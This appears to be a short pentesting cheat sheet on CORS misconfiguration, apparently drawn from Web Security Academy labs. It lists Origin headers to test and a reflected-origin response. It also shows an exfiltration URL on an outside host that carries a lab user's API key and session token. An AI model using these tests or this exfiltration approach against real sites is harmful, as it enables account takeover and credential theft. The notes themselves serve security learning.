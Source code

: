 <h1>CORS Misconfiguration</h1>
<h3>Impact:</h3>
<p>Api token, email, password, and other types of sensitive data exposure, could lead in account takeover.</p>
<h4>Headers to test:</h4>
<p><code>Origin: https://example.com</code></p>

<p><code>Origin: http://example.com</code></p>

<p><code>Origin: http://subdomain.$domain.com</code></p>

<p>Response:</p>
<code>Access-Control-Allow-Origin: https://example.com</code>

Origin: https://store.ac8b1f971f3a924fc04d162000e40010.web-security-academy.net
Access-Control-Allow-Origin: https://store.ac8b1f971f3a924fc04d162000e40010.web-security-academy.net

<p>CORS vulnerability with trusted null origin</p>
<p>-Go to console.log, and you must see:</p>
<p>https://angeljuanma.github.io/log?key={ "username": "wiener", "email": "", "apikey": "ILmCsS4WvD12NbFLxkHaUt7PnL3cFDzU", "sessions": [ "mWXTjX7lmBUZlRJ9TPWqfN7FxBggUFKg" ] }</p>

<p>This will store the accout detail.</p>
